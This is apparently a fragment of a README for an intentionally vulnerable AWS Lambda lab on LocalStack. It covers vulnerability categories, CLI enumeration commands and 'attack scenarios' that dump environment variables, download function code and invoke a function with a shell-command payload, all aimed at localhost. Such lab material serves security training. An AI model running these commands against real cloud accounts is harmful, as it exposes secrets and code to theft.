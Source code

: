 4. **Logging Issues**
   - Sensitive data in logs
   - No log monitoring
   - Log injection

5. **Network Security**
   - Public function URLs
   - No VPC isolation
   - Open security groups

## Testing Commands

### LocalStack AWS CLI
```bash
# List functions
aws lambda list-functions --endpoint-url http://localhost:4566

# Get function code
aws lambda get-function --function-name vuln-func \
  --endpoint-url http://localhost:4566

# List S3 buckets
aws s3 ls --endpoint-url http://localhost:4566

# Get DynamoDB tables
aws dynamodb list-tables --endpoint-url http://localhost:4566
```

### Attack Scenarios
```bash
# 1. Extract all environment variables
aws lambda list-functions --endpoint-url http://localhost:4566 \
  --query 'Functions[*].[FunctionName,Environment.Variables]'

# 2. Download function code
aws lambda get-function --function-name target \
  --endpoint-url http://localhost:4566 \
  --query 'Code.Location' | xargs curl -o function.zip

# 3. Invoke with malicious payload
aws lambda invoke --function-name vulnerable \
  --payload '{"cmd":"cat /var/runtime/bootstrap"}' \
  --endpoint-url http://localhost:4566 \
  response.json
```

## Defense Mechanisms (What's Missing)
- ❌ Input validation
- ❌ Least privilege IAM
- ❌ Secrets manager usage
- ❌ VPC isolation
- ❌ Function URLs authentication
- ❌ Runtime protection
- ❌ Code signing
- ❌ Monitoring and alerting
